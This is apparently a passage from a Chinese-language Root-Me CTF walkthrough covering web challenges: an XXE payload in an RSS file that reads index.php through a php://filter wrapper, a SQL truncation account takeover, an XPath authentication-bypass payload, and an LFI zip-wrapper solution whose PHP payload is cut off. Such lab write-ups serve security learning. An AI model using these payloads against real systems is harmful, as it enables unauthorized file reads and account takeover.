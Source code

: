```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<rss version="2.0">
<channel>
  <title>&sp;</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>&sp;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>
</rss>
```

## 42.SQL Truncation
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch36/](http://challenge01.root-me.org/web-serveur/ch36/ "http://challenge01.root-me.org/web-serveur/ch36/")
\[+]Statement:找到进入管理员空间的方法
\[+]Solution:利用sql截断的特性。在页面的源码里给出了创建表的sql语句。可以看到用户名只有12位，当我们注册如下账户admin a时，mysql会默认截断12位后的a，当服务器的配置不当时，我们此时就已经修改了admin的密码。

## 43.XPath injection - authentication
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch23/](http://challenge01.root-me.org/web-serveur/ch23/ "http://challenge01.root-me.org/web-serveur/ch23/")
\[+]Statement:找到管理员的密码
\[+]Solution:Xpath类型的认证注入，构造永真式，同时根据member页面显示的管理员的用户名，构造payload，获取管理员权限
\[+]Payload:username=John or ‘1’=’1\&password=123

## 44.Local File Inclusion - Wrappers
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch43/](http://challenge01.root-me.org/web-serveur/ch43/ "http://challenge01.root-me.org/web-serveur/ch43/")
\[+]Statement:找到flag
\[+]Solution:这是一个结合文件上传、文件包含和伪协议的题。通过使用[github上的zip文件上传payload](<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File Inclusion - Path Traversal#wrapper-zip> "github上的zip文件上传payload")，绕过图片类型检测，并通过执行代码里的show\_source(‘index.php’)，查看到源码。但发现服务器禁止了外部命令执行的函数。通过列目录，发现flag文件，再用show\_source查看flag文件。
\[+]Payload: &#x20;

```
echo '<pre><?php
function get_allfiles($path,&$files)
{
    if(is_dir($path))
    {
        $dp = dir($path);
        while ($file = $dp ->read())
        {
            if($file !== "." && $file !== "..")
            {
                get_allfiles($path."/".$file, $files);
            }
        }
```